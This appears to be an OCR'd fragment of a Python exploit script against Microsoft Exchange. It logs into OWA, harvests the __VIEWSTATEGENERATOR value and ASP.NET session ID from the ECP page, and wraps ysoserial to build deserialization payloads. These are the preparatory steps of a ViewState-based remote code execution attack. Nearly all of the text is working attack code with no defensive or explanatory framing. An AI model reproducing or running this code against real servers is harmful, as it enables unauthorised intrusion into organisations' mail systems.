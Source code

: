     ysoserial_path = os.path.abspath(os.path.dirname(__file__))+"/ysoserial-1.32/"
    session = requests.Session()

    def get_value(url, user, pwd):
        print("[*] Tring to login owa...")
        tmp = urlparse(url)
        base_url = "{}://{}".format(tmp.scheme, tmp.netloc)
        paramsPost = {"password": ""+pwd+"", "isUtf8": "1", "passwordText": "", "trusted": "4",
                    "destination": ""+url+"", "flags": "4", "forcedownlevel": "0", "username": ""+user+""}
        headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Upgrade-Insecure-Requests": "1",
                "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0", "Connection": "close", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Cookie": "PrivateComputer=true; PBack=0"}
        cookies = {"PBack": "0", "PrivateComputer": "true"}
        login_url = base_url + '/owa/auth.owa'
        print("[+] Login url: {}".format(login_url))
        try:
            login = session.post(login_url, data=paramsPost,
                              headers=headers, verify=False, timeout=30)
            print("[*] Status code: %i" % login.status_code)
            if "reason=" in login.text or "reason=" in login.url and "owaLoading" in login.text:
                print("[!] Login Incorrect, please try again with a different account..")
                # sys.exit(1)
            #print(str(response.text))
        except Exception as e:
            print("[!] login error , error: {}".format(e))
            sys.exit(1)
        print("[+] Login successfully! ")
        try:
            print("[*] Tring to get __VIEWSTATEGENERATOR...")
            target_url = "{}/ecp/default.aspx".format(base_url)
            new_response = session.get(target_url, verify=False, timeout=15)
            view = re.compile(
                'id="__VIEWSTATEGENERATOR" value="(.+?)"').findall(str(new_response.text))[0]
            print("[+] Done! __VIEWSTATEGENERATOR:{}".format(view))
        except:
            view = "B97B4E27"
            print("[*] Can't get __VIEWSTATEGENERATOR, use default value: {}".format(view))
        try:
            print("[*] Tring to get ASP.NET_SessionId....")
            key = session.cookies['ASP.NET_SessionId']
            print("[+] Done!  ASP.NET_SessionId: {}".format(key))
        except Exception as e:
            key = None
            print("[!] Get ASP.NET_SessionId error, error: {} \n[*] Exit..".format(e)) 
        return view, key, base_url

    def ysoserial(cmd):
        cmd = ysoserial_path+cmd
        r = os.popen(cmd)
        res = r.readlines()
        return res[-1]
